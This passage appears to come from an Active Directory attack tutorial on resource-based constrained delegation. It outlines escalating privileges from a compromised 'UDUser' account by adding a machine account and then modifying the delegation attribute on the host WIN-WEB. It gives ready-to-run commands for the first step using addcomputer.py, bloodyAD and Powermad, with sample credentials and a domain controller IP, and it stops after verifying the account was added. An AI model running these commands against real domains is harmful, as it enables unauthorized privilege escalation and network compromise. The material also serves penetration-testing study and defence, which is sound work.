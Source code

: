 During the attack, if you obtain the permissions of `UDUser`, you can use the permissions of this user to increase the privileges locally:
 - Create a machine account using the `UDUser` domain user (each domain user can create `10` by default)
 - Then modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` of `WIN-WEB` for the `sid` of the newly created machine user`
 - Then use the machine account to apply for bills to escalate rights

1. Add a machine account

```bash
# Create a machine account using addcpputer
python3 addcomputer.py hack.local/UDUser:123.com -method LDAPS -computer-name test\$ -computer-pass Passw0rd -dc-ip 10.10.10.137

# Create a machine account using bloodyAD tool
python3 bloodyAD.py -d hack.local -u UDUser -p '123.com' --host 10.10.10.137 addComputer test 'Passw0rd'

# Create a machine account using PowerMad tool
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount test -Password $(ConvertTo-SecureString "Passw0rd" -AsPlainText -Force)

# Query whether the query was successfully added
net group "domain computers" /domain
```

![](./images/29.png#pic_center)
